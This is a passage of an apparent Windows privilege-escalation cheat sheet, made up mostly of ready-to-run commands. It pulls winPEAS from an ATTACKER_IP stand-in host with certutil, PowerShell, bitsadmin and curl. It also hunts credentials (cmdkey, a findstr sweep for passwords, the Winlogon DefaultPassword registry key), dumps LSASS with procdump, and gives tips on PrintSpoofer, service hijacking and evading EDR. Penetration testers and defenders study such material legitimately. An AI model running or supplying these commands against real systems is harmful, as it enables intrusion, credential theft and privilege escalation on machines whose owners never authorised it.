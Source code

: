 File transfer snippets
```
certutil -urlcache -f http://ATTACKER_IP/winPEASx64.exe C:\Windows\Temp\winPEAS.exe
powershell -NoP -C "iwr http://ATTACKER_IP/winPEASx64.exe -OutFile C:\Windows\Temp\winPEAS.exe"
bitsadmin /transfer t /download /priority high http://ATTACKER_IP/winPEASx64.exe C:\Windows\Temp\winPEAS.exe
curl.exe -L http://ATTACKER_IP/winPEASx64.exe -o C:\Windows\Temp\winPEAS.exe
```

Automated enumeration (if allowed)
```
C:\Windows\Temp\winPEAS.exe
```

Post-escalation confirmation
```
whoami
whoami /groups
```

# Practical tips

- Prefer low-noise paths: If SeImpersonatePrivilege is enabled, try PrintSpoofer first—quick and low-impact.
- Validate write access before changing services. Use icacls/accesschk and consider potential service outages.
- For sc config, maintain exact spacing: sc config "Name" binPath= "..."
- Unquoted service paths require write access to one of the parent directories; this is less common on modern systems.
- AlwaysInstallElevated requires BOTH HKCU and HKLM set to 1; verify both before using msiexec.
- When using runas /savecred, you need valid saved creds (cmdkey /list). Otherwise it won’t help.
- Keep 32-bit vs 64-bit consistent for tools (use the 64-bit version on 64-bit hosts).
- If dumping LSASS (only if permitted), use procdump64.exe -accepteula -ma lsass.exe lsass.dmp and analyze offline; beware EDR.
- Clean up: remove dropped binaries, restore service configs if modified.
- If WMIC is missing, use PowerShell Get-CimInstance/Get-WmiObject equivalents.

# Minimal cheat sheet (one-screen flow)

Baseline
```
whoami & whoami /priv
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
net localgroup administrators
ipconfig /all
```

Creds
```
cmdkey /list
findstr /si /i "password|pwd|user|key|secret" C:\*.config C:\*.txt C:\*.ini 2>nul
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
```
